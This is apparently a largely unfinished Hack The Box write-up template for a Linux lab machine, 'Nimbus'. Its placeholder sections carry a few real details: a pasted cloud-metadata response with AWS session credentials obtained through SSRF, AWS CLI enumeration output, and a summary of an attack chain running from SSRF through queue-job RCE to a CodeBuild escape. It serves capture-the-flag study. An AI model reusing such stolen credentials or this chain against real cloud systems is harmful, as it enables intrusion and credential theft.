

# Nimbus



https://labs.hackthebox.com/achievement/machine/2010960/912

| Property | Value |
|----------|-------|
| **OS** | Linux |
| **Difficulty** | Hard |
| **Release Date** | 2026-06-21 |
| **Retire Date** | YYYY-MM-DD |
| **IP** | 10.10.129. |
| **Techniques** | technique-1, technique-2 |
| **Tags** | #web #privesc #linux |

---

## Machine Info

Brief 2-3 sentence overview of the machine and attack path.

---

## Enumeration

### Nmap Scan

```bash
nmap -sC -sV -oA nmap/machine 10.10.10.X
```

```
# Paste nmap output here
```

### Service Enumeration

Detail findings from each open port/service.

---

## Foothold

How you gained initial access to the machine.

### Vulnerability

Description of the vulnerability exploited.

### Exploitation

Step-by-step exploitation with commands.

```bash
# Commands used
```

---

## User Flag

### Lateral Movement (if applicable)

<h3>Raw response</h3><pre>{
  &#34;Code&#34;: &#34;Success&#34;,
  &#34;LastUpdated&#34;: &#34;2026-06-21T23:58:33Z&#34;,
  &#34;Type&#34;: &#34;AWS-HMAC&#34;,
  &#34;AccessKeyId&#34;: &#34;ASIAQX4PG7L2K9M3N5R8&#34;,
  &#34;SecretAccessKey&#34;: &#34;bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs&#34;,
  &#34;Token&#34;: &#34;IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM&#34;,
  &#34;Expiration&#34;: &#34;2026-06-22T05:58:33Z&#34;

aws --endpoint-url http://aws.nimbus.htb sts get-caller-identity
-------------------------------------------------------------------------------------------
|                                    GetCallerIdentity                                    |
+---------+-------------------------------------------------------------------------------+
|  Account|  847219365028                                                                 |
|  Arn    |  arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a   |
|  UserId |  AROAQX4PG7L2K9M3N5R8H:i-0a1b2c3d4e5f6789a                                    |
+---------+-------------------------------------------------------------------------------+

aws --endpoint-url http://aws.nimbus.htb sqs list-queues
--------------------------------------------------
|                   ListQueues                   |
+------------------------------------------------+
||                   QueueUrls                  ||
|+----------------------------------------------+|
||  http://floci:4566/847219365028/nimbus-jobs  ||
|+----------------------------------------------+|

### Flag

```
user.txt: owned
```

---

## Privilege Escalation

### Enumeration

### Exploitation

[1] SSRF -> IMDS ...
    creds: ASIAQX4PG7L2K9M3N5R8 (exp 2026-06-22T19:43:35Z)
[2] SQS job -> worker RCE -> CodeBuild privileged escape ...
    queued: 848a261f-e097-4f44-9d97-2cf9844e5f1d
[*] waiting up to 120s for flags ...

### Root Flag

```
root.txt: owned
```

---

## Lessons Learned

---

## References

- [Reference 1]()
- [Reference 2](https://github.com/bidnessnonya28/HTB)
